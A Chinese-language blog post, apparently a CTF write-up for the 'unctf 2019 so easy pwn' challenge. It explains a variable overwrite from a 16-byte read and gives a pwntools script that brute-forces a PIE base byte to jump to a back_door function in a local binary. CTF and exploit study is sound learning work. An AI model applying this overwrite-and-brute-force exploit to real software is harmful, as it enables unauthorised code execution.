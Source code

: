 ```yaml
---
layout:     post
title:      "unctf 2019 so easy pwn"
#subtitle:   " \"Hello World, Hello my first Blog\""
date:       2019-11-26 21:00:00
author:     "Red"
#header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - pwn
    - ctf
---
```


这个题经过 [@x](https://ama2in9.top) 的注释之后是这样的：
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/main.png)

### 寻找漏洞点
思路是在两个read函数处下断点，这种写的操作最容易有漏洞，看到read了16个字节，所以拿16个A测试，关闭地址随机化之后，调试，用vmmap看加载的基地址，得到read的真实地址，初步代码如下：
```python
from pwn import *

context.log_level='DEBUG'
context.terminal=['tmux','split','-h']
sh = process('./pwn')

gdb.attach(sh,'''
	b* 0x5655595a #read1
	b* 0x56555a06 #read2
''')

sh.send("A" * 16)
sh.interactive()
```
调试之后发现welcome中的s地址为``0xffffd16c``, call函数中的v1的地址为``0xffffd178``,buf地址为``0xffffd17c``,也就是说s和v1地址只差了12，我们输入16个字节后刚好可以覆盖v1的地址，这就是漏洞所在：
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/vul.png)

### 利用
查看call函数中函数恰巧return了v1，而v1又能被我们覆盖，所以利用方法不言而喻，用12个padding加上一个返回地址即可，查看程序中有back_door可以利用，但是程序开启了PIE。再看welcome函数中泄露了基地址的前16位，也就是前4个字节，back_door中
泄露了后三字节，也就是说需要我们爆破中间的一个字节：
```python
from pwn import *
context.log_level='DEBUG'	
context.terminal=['tmux','split','-h']
try:
	for i in range(0x1000, 0x10000, 0x1000):
		print hex(i)
		sh = process('./pwn')
		  
		back_door = 0x000009cd
		offset = 12 

		#gdb.attach(sh,'''
		#	b* 0x5655595a
		#	b* 0x56555a06
		#''')
		sh.recvuntil("the ")
		ads = (int(sh.recvuntil(" ", drop = True)[-6:]) << 16) +i
		print ads
		sh.recvuntil("name?")
		payload = "a"*offset +p32(back_door +ads)
		sh.send(payload)
		sh.recvuntil(":")
		sh.send("anything")
		sh.interactive()
except Exception as e:
	pass
```

这个题中有个好玩的地方就是第二次read，不管输入什么都会报错，调试得知原来read函数根本没read成功,read返回值(rax)为-1:
![](https://github.com/zhe6652/zhe6652.github.io/raw/master/_posts/unctf-2019-so-easy-pwn/read.png)
